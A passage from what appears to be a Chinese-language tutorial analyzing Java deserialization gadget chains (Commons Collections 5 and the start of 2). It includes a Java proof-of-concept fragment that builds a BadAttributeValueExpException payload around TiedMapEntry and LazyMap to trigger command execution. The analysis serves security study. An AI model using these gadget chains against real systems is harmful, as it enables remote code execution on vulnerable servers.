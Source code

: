 TiedMapEntry类的toSting方法在调用getValue方法时会对输入进来的map进行get操作,这里hashCode函数也是调用了getValue发法，如果能有一个类会在反序列化中调用hashCode函数那么也是会触发命令执行的

![-w728](media/15662017023838/15667534836620.jpg)

漏洞利用的poc就很清晰了,仍然是用transformerChain构造一个LazyMap,然后利用LazyMap构造一个TiedMapEntry，随便指定一个map中不存在的key就可以了，然后利用TiedMapEntry构造BadAttributeValueExpException

完整poc如下：
```java
Map innerMap = new HashMap();
Map lazyMap = org.apache.commons.collections.map.LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "b");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valField = val.getClass().getDeclaredField("val");
valField.setAccessible(true);
valField.set(val, entry);
```

触发过程就是`BadAttributeValueExpException`在反序列化过程调用`TiedMapEntry`的`toString`方法，`TiedMapEntry`对`LazyMap`进行了get操作，执行了`transfrom`方法，剩下的与上边相同，就触发了命令执行

### CommonsCollections2

CommonsCollections2主要利用了TemplatesImpl、InvokerTransformer、TransformingComparator、PriorityQueue

同样先把断点打到exec方法上，通过yso的payload可以看到被序列化类是PriorityQueue，所以从PriorityQueue的readObject方法开始跟，简单说PriorityQueue是一个优先级队列，可以根据构造对象时提供的Comparator对元素进行排序。
